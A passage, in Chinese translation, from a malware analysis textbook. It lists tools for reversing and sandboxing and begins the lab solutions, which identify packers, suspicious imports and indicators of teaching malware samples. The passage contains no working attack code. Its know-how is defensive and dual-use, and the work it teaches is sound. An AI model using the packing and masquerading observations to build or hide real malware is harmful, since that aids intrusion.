ApateDNS 是一个用于控制 DNS 响应的工具。其界面是一个易于使用的图形用户界面。作为一个虚假的 DNS 服务器，ApateDNS 通过在本地机器上监听 UDP 端口 53 来欺骗用户指定的 IP 地址的 DNS 响应。ApateDNS 还会自动配置本地 DNS 服务器为 localhost。当您退出 ApateDNS 时，它会恢复原始的本地 DNS 设置

设置。在第三章中描述的动态分析期间使用 ApateDNS。

您可以从 *http://www.mandiant.com/* 免费下载 ApateDNS。

**Autoruns**

Autoruns 是一个具有大量 Windows 自动启动位置的实用程序。

为了持久性，恶意软件通常会在各种位置安装自己，包括注册表、启动文件夹等。Autoruns 会搜索

[www.it-ebooks.info](http://www.it-ebooks.info/)



各种可能的位置，并以图形用户界面向您报告。使用 Autoruns 进行动态分析以查看恶意软件安装的位置。您可以从 *http://* 下载 Autoruns 作为 Sysinternals 工具套件的一部分。

*www.sysinternals.com/*.

**BinDiff**

BinDiff 是 IDA Pro 的一个强大的二进制比较插件，允许您快速比较恶意软件变体。BinDiff 允许您在给定的恶意软件变体中定位新功能，并告诉您是否有任何功能相似或缺失。如果功能相似，BinDiff 会指示它们有多相似，并比较这两个功能，如图 B-1 所示。

*图 B-1：BinDiff 差异比较显示变体功能中缺失的代码* 如图 B-1 所见，图表的左侧缺失了右侧出现的两个框。您可以放大并检查缺失的指令。BinDiff 还会猜测整体二进制与您正在比较的二进制之间的相似程度，尽管您必须为原始和变体恶意软件生成 IDB 文件才能使此功能生效。

（如果您有用于比较的完整标记 IDB 文件，您将能够更容易地识别二进制中实际相似的内容。）BinDiff 可从 *http://www.zynamics.com/* 购买。

**BinNavi**

BinNavi 是一个类似于 IDA Pro 的逆向工程环境。其优势在于其图形化的逆向工程代码方法。而且，与 IDA Pro 不同，BinNavi 可以集中管理您之前分析过的数据库，这有助于跟踪信息；团队成员可以轻松地在一个项目上工作并共享信息和发现。BinNavi 可从 *http://www.zynamics.com/* 购买。

**466**

附录 B

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Bochs**

Bochs 是一个开源的调试器，可以模拟完整的 x86 计算机。当您想在 IDA Pro 中调试一小段代码时，Bochs 非常有用。IDA Pro 支持使用 Bochs 直接调试 IDB 文件。在这种模式下调试时，输入文件格式并不重要——它可以是一个 DLL、shellcode 溢出，或者任何包含 x86 代码的其他数据库。您只需指向代码片段即可开始调试。这种方法在处理编码字符串或配置数据时通常很有用。您可以从 *http://bochs.sourceforge.net/* 免费下载 Bochs。关于在 IDA Pro 中安装和使用 Bochs 的教程可以在 *http://www.hex-rays.com/products/ida/debugger/* 找到。

*bochs_tut.pdf.*

**Burp Suite**

Burp Suite 通常用于测试 Web 应用程序。它可以配置为允许恶意软件分析师捕获特定的服务器请求和响应，以便操纵发送到系统的内容。

当 Burp 设置为中间人时，您可以通过更改由恶意软件发送到远程服务器的头信息、数据和参数来修改 HTTP 或 HTTPS 请求，以迫使服务器提供更多信息。您可以从 *http://* 下载 Burp Suite。

*portswigger.net/burp/*.

**Capture BAT**

Capture BAT 是一个动态分析工具，用于在恶意软件运行时对其进行监控。Capture BAT 将监控文件系统、注册表和进程活动。您可以使用排除列表（包括许多预设的列表）来消除噪音，以便专注于您正在分析的恶意软件。

虽然 Capture BAT 没有像 Process Monitor 那样的丰富 GUI，但它开源，因此您可以修改它。您可以从下载 Capture BAT

免费从 *http://www.honeynet.org/* 下载。

**CFF Explorer**

CFF Explorer 是一个旨在使 PE 编辑变得简单的工具。该工具对于编辑资源部分、添加导入或扫描签名很有用。CFF Explorer 支持 x86 和 x64 系统，并且可以处理

即使没有安装 .NET Framework，也可以使用 .NET 文件。您可以从 *http://www.ntcore.com/* 免费下载 CFF Explorer。

**Deep Freeze**

Faronics 的 Deep Freeze 是在物理硬件上执行病毒分析时非常有用的工具。它为真实硬件提供了 VMware 快照功能。您可以运行恶意软件，分析它，然后只需重新启动。恶意软件造成的所有损害都将被撤销，您的系统将恢复到干净的状态。Deep Freeze 可从 *http://www.faronics.com/* 购买。

病毒分析工具

**467**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**依赖关系分析器**

依赖关系分析器是一个静态分析工具，用于探索恶意软件导入的 DLL 和函数。它适用于 x86 和 x64 架构。

二进制文件，并在恶意软件运行时构建所有将加载到内存中的 DLL 的分层树状图。我们在第一章中讨论了依赖关系分析器。您可以从 *http://www* 免费下载它。

*.dependencywalker.com/*.

**Hex Editors**

Hex 编辑器允许你编辑和查看包含二进制数据的文件。有许多 hex 编辑器可供选择，例如 WinHex（本书中的选择）、Hex Workshop、010 Editor、HexEdit、Hex Editor Neo、FileInsight 和 FlexHEX。在选择 hex 编辑器时，寻找具有坚固的 GUI、二进制比较、许多数据解码选项（如多字节 XOR）、内置哈希计算器、文件格式解析、模式搜索等功能。许多这些工具都可以购买，但大多数都提供试用版。

**Hex-Rays Decompiler**

Hex-Rays Decompiler 是 IDA Pro 的一个强大但昂贵的插件，它试图将汇编代码转换为人类可读的、类似 C 语言的伪代码文本。此工具安装了一个 F5 “快捷按钮”。当你正在 IDA Pro 中查看反汇编代码时，按 F5 可以让插件打开一个新窗口，显示 C 代码。图 B-2 展示了来自恶意软件代码片段的伪代码外观。

*图 B-2：Hex-Rays Decompiler 显示从汇编代码生成的类似 C 语言的伪代码* 在图 B-2 的示例中，Hex-Rays Decompiler 将超过 100 条汇编指令转换成了八行 C 代码。请注意，插件将使用你在 IDA Pro 中重命名的变量名。在这个例子中，你可以轻松地看到传递给函数的参数，嵌套的 if 语句也更加明显。

我们发现这个插件在尝试解码困难的编码程序时特别有用。在某些情况下，你甚至可以复制粘贴反汇编器的输出，并使用它来编写解码工具。Hex-Rays Decompiler 是市场上最好的反汇编工具，但它并非没有缺陷。Hex-Rays Decompiler 可从 *http://www.hex-rays.com/* 购买。

**468**

附录 B

[www.it-ebooks.info](http://www.it-ebooks.info/)

**IDA Pro**

IDA Pro 是最广泛使用的恶意软件分析反汇编器。我们在整本书中详细讨论了 IDA Pro，第五章提供了对该工具的深入介绍。我们推荐商业版本，请访问 *http://www.hex-rays.com/*。免费版本可在 *http://www.hex-rays.com/products/ida/support/download_freeware.shtml* 获取。

**Immunity Debugger**

Immunity Debugger（ImmDbg）是一个免费的用户模式调试器。它源自 OllyDbg 1.1 源代码，正如我们在第九章中讨论的那样，除了 ImmDbg 对 OllyDbg GUI 进行了外观上的修改，并添加了一个完全功能的 Python 解释器和 API。在

在第 200 页的“可脚本调试”和第十三章的实验室中，我们展示了如何使用 ImmDbg 的 Python 脚本能力。您可以从 *http://www.immunityinc.com/* 下载 ImmDbg。

**Import REConstructor**

当你手动解包恶意软件时，Import REConstructor (ImpREC) 是一个有用的工具。在解包过程中转储内存时，导入地址表 (IAT) 通常会被损坏，你可以使用 ImpREC 来修复该表。你需要提供运行在内存中的恶意软件和一个在磁盘上的转储版本，ImpREC 会尽力修复二进制文件。你可以免费从 *http://tuts4you.com/* 下载 ImpREC。

*download.php?view.415\.*

**INetSim**

INetSim 是一个基于 Linux 的软件套件，用于模拟我们用于动态分析的一些常见网络服务。请确保在 Linux 虚拟机上安装它，并在与你的恶意软件分析 Windows VM 相同的虚拟网络上设置它。INetSim 可以模拟许多流行的服务，例如微软的 Internet Information Services (IIS) 网络服务器，甚至可以监听所有端口以接收传入的连接。我们在第三章中讨论了 INetSim。你可以免费从 *http://www* 下载它。

*.inetsim.org/*.

**LordPE**

LordPE 是一个从内存中转储可执行文件的免费工具。它允许 PE 编辑，并且可以用来修复使用其他方法从内存中转储的程序。LordPE 最常用于解包恶意软件。你可以免费从 *http://www.woodmann* 下载它。

*.com/collaborative/tools/index.php/LordPE.*

**恶意代码分析包**

恶意代码分析包包含一系列实用工具，其中之一安装了有用的 Windows 壳扩展，用于字符串、MD5 哈希计算器以及 CHM 反编译选项。当处理恶意的 Windows 帮助文件时，CHM 反编译选项非常有用。还包括 FakeDNS，这是一个用于欺骗用户指定 DNS 响应的有用工具。还包括用于恶意软件分析的工具。

**469**

[www.it-ebooks.info](http://www.it-ebooks.info/)

地址。虽然这些实用工具不再官方支持，但你可能仍然可以从 *http://labs.idefense.com/* 下载它们。

*software/download/?downloadID=8\.*

**Memoryze**

Memoryze 是一个免费的内存取证工具，它允许你转储和分析实时内存。你可以使用 Memoryze 获取所有实时内存或仅个别进程，以及识别给定系统上加载的所有模块，包括驱动程序和内核级可执行文件。Memoryze 还可以检测 rootkits 和它们安装的钩子。如果你选择使用 Memoryze，请确保下载 Audit Viewer，这是一个可视化 Memoryze 输出的工具，可以使内存分析过程更快、更直观。Audit Viewer 包括一个恶意软件评分索引，可以帮助你识别内存转储中的可疑内容。你可以免费从 *http://www.mandiant.com/* 下载 Memoryze 和 Audit Viewer。

**Netcat**

Netcat，被称为“TCP/IP 瑞士军刀”，可以用来监控或启动入站和出站连接。Netcat 在动态分析中非常有用，因为它可以监听已知恶意软件连接到的端口，因为 Netcat 会将接收到的所有数据通过标准输出打印到屏幕上。我们在第三章中介绍了 Netcat 的动态分析用法，并在第十一章中讨论了攻击者如何使用它。Netcat 默认安装在 Cygwin 和大多数 Linux 发行版中。您可以从 *http://joncraton.org/media/* 免费下载 Windows 版本。

*files/nc111nt.zip.*

**OfficeMalScanner**

OfficeMalScanner 是一款用于在 Microsoft Office 文档中查找恶意代码的免费命令行工具。它定位壳代码、嵌入的 PE

文件和 Excel、Word、PowerPoint 文档中的 OLE 流，并且可以解压缩 Microsoft Office 文档的新格式。我们建议在 Office 2007 之前的文档上使用 OfficeMalScanner 的扫描和暴力选项，在 Office 2007 之后的文档上使用膨胀选项。

Office 2007 文档。您可以从 *http://www.reconstructer.org/* 下载 OfficeMalScanner。

**OllyDbg**

OllyDbg 是用于恶意软件分析最广泛使用的调试器之一。

我们在整本书中详细讨论了 OllyDbg，第九章提供了对该工具的深入介绍。OllyDbg 是一个用户模式的 x86

调试器，具有 GUI。OllyDbg 有几个插件可用，例如 OllyDump，用于解包时使用（在第十八章中讨论）。您可以从 *http://www.ollydbg.de/* 免费下载 OllyDbg。

**OSR 驱动加载器**

OSR 驱动加载器是一款免费工具，用于将设备驱动程序加载到内存中。这是一个基于 GUI 的工具，用于轻松加载和启动驱动程序而无需重启。当你需要动态地**470**

附录 B

[www.it-ebooks.info](http://www.it-ebooks.info/)

分析恶意设备驱动程序而没有安装程序。我们在第十章中讨论了 OSR 驱动加载器工具。您可以从 *http://www.osronline.com/* 下载它。

**PDF Dissector**

PDF Dissector 是一款商业 GUI 基础的 PDF 分析工具，可以图形化解析 PDF 元素并自动解压缩对象，使其易于提取恶意 JavaScript。该程序包括一个 JavaScript 反混淆器和解释器，以帮助您理解和执行恶意脚本。PDF Dissector 还可以用来识别已知漏洞。您可以从 *http://* 购买此工具。

*www.zynamics.com/*.

**PDF Tools**

PDF Tools 是 PDF 分析的经典工具包。该工具包包括两个工具：*pdfid.py* 和 *pdf-parser.py*。*pdfid.py* 扫描 PDF 对象并告诉您它是否认为 PDF 包含 JavaScript。由于大多数恶意 PDF 都使用 JavaScript，这些信息可以帮助您快速识别可能存在风险的 PDF。*pdf-parser.py* 帮助您检查 PDF 文件的内容和重要对象，而无需渲染它。您可以从 PDF

工具免费下载 *http://blog.didierstevens.com/programs/pdf-tools/*。

**PE Explorer**

PE Explorer 是一款查看 PE 头部、段和导入/导出表的实用工具。它比 PEview 更强大，因为它允许你编辑结构。PE Explorer 包含用于 UPX-、Upack- 和 NsPack 压缩文件的静态解包器。这种解包功能无缝且节省大量时间。你只需将打包的二进制文件加载到 PE

Explorer，并且它会自动解包文件。你可以从 *http://*

*www.heaventools.com/*.

**PEiD**

PEiD 是一款免费的静态分析工具，用于检测打包器和编译器。

它包含超过 600 个签名，用于检测 PE 格式文件中的打包器、加密器和编译器。PEiD 还提供可供下载的插件，其中最有用的是 Krypto ANALyzer (KANAL)。KANAL

可以用于在 PE 文件中查找常见的加密算法，并提供将信息导出到 IDA Pro 的能力。我们在第 1、13 和 18 章中讨论了 PEiD。尽管 PEiD 项目已经停止，但你仍然可以从 *http://*

*www.peid.info/*.

**PEview**

PEview 是一款免费查看 PE 文件结构的工具。你可以查看 PE 头部、单个段和导入/导出表。

我们在整本书中使用了 PEview，并在第一章中讨论了它。你可以从 *http://www.magma.ca/~wjr/* 下载 PEview。

工具用于恶意软件分析

**471**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Process Explorer**

Process Explorer 是一款用于动态分析的功能强大的任务管理器，用于提供对系统上当前运行的进程的洞察。Process Explorer 可以显示单个进程的 DLL、句柄、事件、字符串等。我们在第三章中讨论了 Process Explorer。你可以从 *http://www.sysinternals.com/* 下载 Process Explorer 作为 Sysinternals 工具套件的一部分。

**进程黑客**

Process Hacker 是一款功能强大的任务管理器，类似于 Process Explorer，但增加了许多功能。它可以扫描内存中的字符串和正则表达式，注入或卸载 DLL，加载驱动程序，创建或启动服务等。你可以从 *http://*

*processhacker.sourceforge.net/* 下载 PE Explorer 的试用版或购买商业版本。

**进程监控**

Process Monitor (procmon) 是一款动态分析工具，用于查看实时文件系统、注册表和进程活动。你可以过滤其输出以去除噪音。我们在第三章中讨论了 Process Monitor。你可以从 *http://www.sysinternals.com/* 下载 Process Monitor 作为 Sysinternals 工具套件的一部分。

**Python**

Python 编程语言允许您在执行恶意软件分析时快速编码任务。在整个书籍和实验中，我们使用 Python。如第五章和第九章所述，IDA Pro 和 Immunity Debugger 内置了 Python 解释器，允许您快速自动化任务或更改界面。我们建议学习 Python 并将其安装在分析机器上。您可以从 *http://www.python.org/* 免费下载 Python。

**Regshot**

Regshot 是一个动态分析工具，允许您获取并比较两个注册表快照。要使用它，您只需获取注册表的快照，运行恶意软件，等待它完成任何系统更改，获取第二个快照，然后比较这两个快照。Regshot 还可以用于获取和比较您指定的任何文件系统目录的两个快照。您可以从 *http://sourceforge* 免费下载 Regshot。

*.net/projects/regshot/*.

**Resource Hacker**

Resource Hacker 是一个有用的静态分析工具，用于查看、重命名、修改、添加、删除和提取 PE 格式二进制文件的资源。该工具支持 x86 和 x64 架构。由于恶意软件通常在运行时从其资源部分提取更多恶意软件、DLL 或驱动程序，我们发现这个工具在无需运行恶意软件的情况下轻松提取这些部分非常有用。我们在第一章和第十二章的实验中讨论了 Resource Hacker。您可以从 *http://www.angusj.com/resourcehacker/* 下载 Resource Hacker。

**472**

附录 B

[www.it-ebooks.info](http://www.it-ebooks.info/)

**沙盒**

在第三章中，我们讨论了使用沙盒的优缺点。

许多沙盒都是公开可用的，您也可以编写自己的沙盒。

公共沙盒是一个不错的选择，因为它们总是在努力保持市场领先。我们在第三章中演示了 GFI Sandbox，但还有很多其他选择，包括 Joe Sandbox、BitBlaze、Comodo、ThreatExpert、Anubis、Norman、Cuckoo、Zero Wine、Buster Sandbox 和 Minibis。与十六进制编辑器一样，每个人都有自己的偏好，所以尝试几个看看哪个适合您。

**Sandboxie 和 Buster Sandbox Analyzer**

Sandboxie 是一个在隔离环境中运行程序的程序，以防止它们对您的系统进行永久性更改。Sandboxie 被设计为允许安全的网络浏览，但其沙盒特性使其在恶意软件分析中非常有用。例如，您可以使用它来捕获您正在沙盒化的程序的文件系统和注册表访问。

Buster Sandbox Analyzer (BSA) 可以与 Sandboxie 一起使用，以提供自动分析和报告。您可以从 *http://www.sandboxie.com/* 和 *http://bsa.isoftware.nl/* 下载 Sandboxie 和 BSA。

**Snort**

Snort 是最受欢迎的开源网络入侵检测系统 (IDS)。我们在第十四章中讨论了为 Snort 编写基于网络的签名。Snort 可以在数据包捕获上主动或离线运行。

如果你为恶意软件编写网络签名，使用 Snort 测试它们是一个好的开始。你可以从 *http://www.snort.org/* 下载 Snort。

**Strings**

Strings 是一个用于检查二进制数据中 ASCII 和 Unicode 字符串的有用静态分析工具。使用 Strings 通常是一种快速了解恶意软件功能的方法，但程序的有用性可能会被打包和字符串混淆所阻碍。我们在第一章中讨论了 Strings。你可以从 *http://www.sysinternals.com/* 下载 Strings 作为 Sysinternals 工具套件的一部分。

**TCPView**

TCPView 是一个用于图形显示所有 TCP

和 UDP 端点在你的系统上。这个工具在恶意软件分析中很有用，因为它允许你看到哪个进程拥有特定的端点。

TCPView 工具可以帮助你在分析机器通过端口连接时追踪进程名称，当你不知道哪个进程负责时（正如第十二章中讨论的进程注入那样）。你可以从 *http://www.sysinternals.com/* 下载 TCPView 作为 Sysinternals 工具套件的一部分。

**The Sleuth Kit**

The Sleuth Kit (TSK) 是一个用于法医分析的 C 库和一组命令行工具，可以用来查找由 rootkits 隐藏的替代数据流和文件。TSK 不依赖于 Windows API 来处理 NTFS 和 FAT 文件系统。你可以在 Linux 上运行 TSK，或者在 Windows 上使用 Cygwin。你可以从 *http://www.sleuthkit.org/* 免费下载 TSK。

恶意软件分析工具

**473**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Tor**

Tor 是一个免费的可用的洋葱路由网络，允许你在互联网上匿名浏览。我们建议在分析过程中进行任何研究时使用 Tor，例如检查 IP 地址、执行互联网搜索、访问域名或寻找你可能不希望公开的信息。我们通常不建议让恶意软件通过网络连接，但如果你这样做，你应该使用像 Tor 这样的技术。安装 Tor 后，在开始浏览之前，访问类似 *http://whatismyipaddress.com/* 的网站以确认网站返回的 IP 地址不是你的 IP 地址。Tor 可以从 *https://www.torproject.org/* 免费下载。

**Truman**

Truman 是一个无需使用虚拟机即可创建安全环境的工具。它由一个 Linux 服务器和一个运行 Windows 的客户端机器组成。像 INetSim 一样，Truman 模拟互联网，但它还提供了从 Windows 机器中轻松抓取内存并快速重新映像的功能。Truman 随附有模拟服务和在 Linux 上进行分析的脚本。尽管这个工具不再开发，但它可以帮助你了解如何设置自己的裸机环境。你可以从 *http://* 免费下载 Truman。

*www.secureworks.com/research/tools/truman/*.

**WinDbg**

WinDbg 是最受欢迎的全能调试器，由微软免费分发。您可以使用它来调试用户模式、内核模式、x86 和 x64

恶意软件。WinDbg 缺乏 OllyDbg 的强大图形用户界面，而是提供命令行界面。在第十章中，我们专注于 WinDbg 的内核模式使用。许多恶意软件分析师选择使用 OllyDbg 进行用户模式调试，使用 WinDbg 进行内核调试。WinDbg 可以独立下载，也可以作为 Windows SDK 的一部分从 *http://msdn*

*.microsoft.com/*.

**Wireshark**

Wireshark 是一个开源的网络数据包分析器，也是动态分析的有用工具。您可以使用它捕获恶意软件生成的网络流量，并分析许多不同的协议。Wireshark 是最受欢迎的免费数据包捕获工具，具有易于使用的图形用户界面。我们在第三章中讨论了 Wireshark 的使用方法。您可以从 *http://www.wireshark.org/* 下载 Wireshark。

**UPX**

Ultimate Packer for eXecutables (UPX) 是恶意软件作者使用的最流行的打包器。在第一章和第十八章中，我们讨论了如何自动和手动解包使用 UPX 的恶意软件。如果您在野外遇到这个打包器，尝试使用 upx –d 解包恶意软件。您可以从 *http://upx.sourceforge.net/* 下载此打包器。

**VERA**

可视化可执行文件以进行逆向工程和分析（VERA）是一个用于可视化编译的可执行文件以进行恶意软件分析的工具。它使用 Ether **474**

附录 B

[www.it-ebooks.info](http://www.it-ebooks.info/)

框架，根据动态跟踪数据生成可视化，以帮助分析。VERA 提供了恶意软件的高级概述，并有助于解包。它还可以与 IDA Pro 接口，帮助您在 VERA 图表和 IDA Pro 汇编之间浏览。您可以从 *http://www.offensivecomputing.net/* 下载 VERA。

**VirusTotal**

VirusTotal 是一个使用多种不同杀毒程序扫描恶意软件的在线服务。您可以直接将文件上传到 VirusTotal，它将使用超过 40 种不同的杀毒引擎检查该文件。如果您不想上传您的恶意软件，您也可以搜索 MD5 哈希值，以查看 VirusTotal 是否之前已经看到过该样本。我们在第一章的开始讨论了 VirusTotal，因为它在恶意软件分析中通常是一个有用的第一步。您可以通过 *http://www.virustotal.com/* 访问 VirusTotal。

**VMware Workstation**

VMware Workstation 是一个流行的桌面虚拟化产品。有许多 VMware 的替代品，但我们在这本书中使用它，因为它很受欢迎。第二章强调了 VMware 的许多功能，例如虚拟网络、快照（允许您保存虚拟机的当前状态）以及克隆现有的虚拟机。您可以从 *http://www.vmware.com/* 购买 VMware Workstation，或从同一网站免费下载具有有限功能的 VMware Player。

**Volatility Framework**

Volatility 框架是一个开源的工具集合，用 Python 编写，用于分析实时内存捕获。这个工具集对于恶意软件分析很有用，因为它可以用来提取注入的 DLL 文件，执行 rootkit 检测，查找隐藏进程等。这个工具集拥有许多用户和贡献者，因此不断开发新的功能。您可以从*http://code.google*

*.com/p/volatility/*.

**YARA**

YARA 是一个开源项目，用于识别和分类恶意软件样本，它允许您根据在样本中找到的字符串或任何其他二进制模式创建恶意软件家族的描述。这些描述被称为*规则*，它们由一组字符串和逻辑组成。

规则应用于二进制数据，如文件或内存，以对样本进行分类。这个工具对于创建自己的类似杀毒软件和签名很有用。您可以从*http://*免费下载 YARA。

*code.google.com/p/yara-project/*.

**Zero Wine**

Zero Wine 是一个开源的恶意软件沙箱，以虚拟机的形式分发，运行在 Debian Linux 上。恶意软件样本使用 Zero Wine 执行，以模拟 Windows API 调用，并将调用记录下来以报告恶意活动。Zero Wine 甚至可以捕捉并击败某些反虚拟机、反调试和反模拟技术。您可以从*http://zerowine.sourceforge.net/*下载 Zero Wine。

恶意软件分析工具

**475**

[www.it-ebooks.info](http://www.it-ebooks.info/)

[www.it-ebooks.info](http://www.it-ebooks.info/)

**1**

**SOLUTIONS TO LABS**

本附录包含了对实验室的解决方案，

出现在大多数章节的末尾。对于每个实验室，我们

提供简答部分，随后是详细的

分析。简答部分有助于快速检查您是否得到了正确答案。详细分析有助于一步一步地完成实验室。如果您在完成实验室时遇到困难，请使用详细分析部分来引导您完成。

实验室是为具有管理员权限的 Windows XP 机器设计的。许多实验室可以在 Windows Vista 或 Windows 7 上运行，但有些则不行。

**Lab 1-1 Solutions**

***简答***

1.

这些文件是专门为这本书编写的，因此截至本书编写时，您不应在*VirusTotal.com*上找到它们的签名。当然，如果这些文件因本书的出版而成为杀毒软件签名的一部分，结果将不同。

[www.it-ebooks.info](http://www.it-ebooks.info/)

2.

这两个文件都是在 2010 年 12 月 19 日编译的，彼此之间相差不到 1 分钟。

3.

没有任何迹象表明这两个文件被压缩或混淆。

4.

来自 *Lab01-01.exe* 的有趣导入是 FindFirstFile、FindNextFile 和 CopyFile。这些导入告诉我们程序会搜索文件系统并复制文件。来自 *Lab01-01.dll* 的最有趣导入是 CreateProcess 和 Sleep。我们还看到这个文件导入了来自 *WS2_32.dll* 的函数，该函数提供了网络功能。

5\.

检查 *C:\Windows\System32\kerne132.dll* 以查找额外的恶意活动。请注意，文件 *kerne**1**32.dll*，其中数字 *1* 代替了字母 *l*，是为了看起来像系统文件 *kerne**l**32.dll*。这个文件可以用作宿主指标来搜索恶意软件。

6\.

*.dll* 文件包含对本地 IP 地址 127.26.152.13 的引用。这个地址是这个程序被创建用于教育和非恶意目的的产物。如果这是一个真正的恶意软件，IP 地址应该是可路由的，并且它将是一个用于识别这种恶意软件的良好基于网络的指标。

7\.

*.dll* 文件可能是一个后门。*.exe* 文件用于安装或运行 DLL。

***详细分析***

要回答第一个问题，我们将文件上传到 *VirusTotal.com*，它会对抗病毒签名进行扫描。

接下来，我们在 PEview 中打开这些文件。对于每个文件，我们导航到 **IMAGE_NT_HEADERS****IMAGE_FILE_HEADER****时间日期戳**字段，它告诉我们编译时间。这两个文件都是在 2010 年 12 月 19 日编译的，彼此之间相差 1 分钟。这证实了我们的怀疑，即这些文件是同一包的一部分。事实上，如此接近的编译时间强烈暗示这些文件是由同一作者在同一时间创建的。

我们知道这些文件是相关的，因为它们的编译时间和它们被发现的位置。*.exe* 很可能使用或安装 *.dll*，因为 DLL 不能独立运行。

然后，我们检查这两个文件是否被压缩。这两个文件都有少量但合理的导入数和结构良好的部分，大小适当。PEiD 将其标记为未压缩的代码，使用 Microsoft Visual C++ 编译，这告诉我们这些文件没有被压缩。文件导入数量少的事实告诉我们，它们可能是小型程序。请注意，DLL

文件没有导出，这是不正常的，但并不表明文件被压缩。（当你我们在第 7-3 实验中返回这些文件时，你将了解更多关于这个导出部分的信息。）

接下来，我们查看文件的导入和以 *.exe* 开头的字符串。来自 *msvcrt.dll* 的所有导入都是几乎每个可执行文件都包含的函数，作为编译器添加的包装代码的一部分。

当我们查看来自 *kernel32.dll* 的导入时，我们看到用于打开和操作文件的函数，以及 FindFirstFile 和 FindNextFile 函数。这些函数告诉我们恶意软件会搜索 **478**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

文件系统，并且可以打开和修改文件。我们无法确定程序正在搜索什么，但 *.exe* 字符串表明它正在搜索 **1**

受害者系统上的可执行文件。

我们还看到了字符串 C:\Windows\System32\Kerne**l**32.dll 和 C:\windows\ system32\kerne**1**32.dll。（注意从字母 ***l*** 到数字 ***1*** 的变化）

（位于 kernel32.dll 中。）文件 *kerne**1**32.dll* 明显是为了伪装成 Windows 的 *kernel32.dll* 文件。文件 *kerne**1**32.dll* 可以作为基于主机的指标来定位感染，并且是我们应该分析其恶意代码的文件。

接下来，我们查看 *Lab01-01.dll* 的导入和字符串，它从 *WS2_32.dll* 导入函数。因为这些函数是按序号导入的，所以我们不知道正在导入哪些函数。我们还看到从 *kernel32.dll* 导入的两个有趣函数：CreateProcess 和 Sleep，这些函数通常用作后门。这些函数与字符串 exec 和 sleep 结合起来对我们特别有趣。exec 字符串可能通过网络发送以命令后门运行程序。sleep 字符串可能用于命令后门程序休眠。（这种恶意软件很复杂。我们将在 7-3 实验中回到它，一旦我们掌握了分析它的技能。）

**实验 1-2 解答**

***简答***

1.

到目前为止，该文件与 41 个防病毒签名中的 3 个匹配。

2.

有几个迹象表明程序是用 UPX 打包的。您可以通过下载 UPX 并运行 upx –d 来解包它。

3.

解包文件后，您会看到最有趣的导入是 CreateService、InternetOpen 和 InternetOpenURL。

4.

您应该检查受感染的机器上的 Malservice 服务以及到 *http://www.malwareanalysisbook.com/* 的网络流量。

***详细分析***

在分析实验 1-2 时，我们将文件上传到 *VirusTotal.com* 并看到它至少与三个病毒签名匹配。一个防病毒引擎将其识别为恶意下载器，下载额外的恶意软件；其他两个将其识别为打包的恶意软件。这证明了 *VirusTotal.com* 的有用性。

如果我们只使用一个防病毒程序扫描此文件，我们可能不会得到任何信息。

使用 PEview 打开文件后，几个指标表明该文件已被打包。最明显的指标是名为 UPX0、UPX1 和 UPX2 的部分——这是 UPX 打包恶意软件的部分名称。我们可以使用 PEiD 来确认文件是否被打包，但这并不是万无一失的。即使 PEiD 未能识别文件为 UPX 打包，请注意导入数量相对较少，以及第一个部分 UPX0 的虚拟大小为 0x4000，但原始数据大小为 0。UPX0 是最大的部分，并且被标记为可执行，因此它很可能是原始未打包代码的位置。

实验解答

**479**

[www.it-ebooks.info](http://www.it-ebooks.info/)

识别程序为压缩后，我们可以通过从*http://upx.sourceforge.net/*下载 UPX 并运行以下命令来解压缩它：upx -o newFilename -d originalFilename

-d 选项表示解压缩文件，而-o 选项指定输出文件名。

解压缩后，我们查看导入部分和字符串。从*kernel32.dll*和*msvcrt.dll*的导入几乎每个程序都有，所以它们对我们了解这个特定程序帮助不大。从*wininet.dll*的导入告诉我们代码连接到互联网（InternetOpen 和 InternetOpenURL），而从*advapi32.dll*（CreateService）的导入告诉我们代码创建了一个服务。当我们查看字符串时，我们看到 www.malwareanalysisbook.com，这可能是 InternetOpenURL 以及 Malservice 打开的 URL，Malservice 可能是创建的服务名称。

我们无法确定这个程序正在做什么，但我们已经找到了一些指示，可以帮助在网络中搜索此恶意软件。

**实验 1-3 解答**

***简答***

1.

到目前为止，43 个病毒引擎中有 25 个将此样本识别为恶意软件。

2.

文件已被压缩，但我们目前无法解压缩它。

3.

没有解压缩文件，这个问题无法回答。

4.

没有解压缩文件，这个问题无法回答。

***详细分析***

对于文件*Lab01-03.exe*，*VirusTotal.com*报告了各种不同的签名，名称听起来模糊。最常见的签名是使用 FSG 压缩器的文件。

当我们在 PEview 中打开文件时，我们看到几个表明文件已被压缩的迹象。首先，文件部分没有名称。接下来，我们看到第一个部分具有 0x3000 的虚拟大小，但原始数据大小为 0。我们运行 PEiD 进行确认，它识别压缩器为 FSG 1.0 -> dulek/xt。

为了确认文件已被压缩，我们搜索导入项，但似乎没有导入表。没有导入表的可执行文件极为罕见，其缺失告诉我们应该尝试另一个工具，因为 PEview 在处理此文件时遇到了麻烦。

我们使用 Dependency Walker 打开文件，看到它确实有一个导入表，但它只导入两个函数：LoadLibrary 和 GetProcAddress。

压缩文件通常只导入这两个函数，这进一步表明该文件已被压缩。我们可以尝试使用 UPX 解压缩文件，但我们知道该文件是用 FSG 压缩的，而不是 UPX。我们将在第十八章中回到这个文件，一旦我们掌握了解压缩它的技巧。

**480**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**实验 1-4 解答**

**1**

***简答***

1.

到目前为止，43 个反病毒引擎中有 16 个将其识别为恶意代码，该代码会下载并/或将额外的恶意软件安装到系统中。

2.

没有任何迹象表明文件已被压缩或混淆。

3.

根据文件头信息，此程序是在 2019 年 8 月编译的。

显然，编译时间被伪造了，我们无法确定文件是在何时编译的。

4.

从 *advapi32.dll* 的导入表明程序正在处理权限。WinExec 和 WriteFile 的导入，以及来自 *VirusTotal.com* 的结果告诉我们程序将文件写入磁盘然后执行它。还有从文件资源部分读取信息的导入。

5.

字符串 \system32\wupdmgr.exe 表明该程序可能在该位置创建或修改文件。字符串 www.malwareanalysisbook.com/

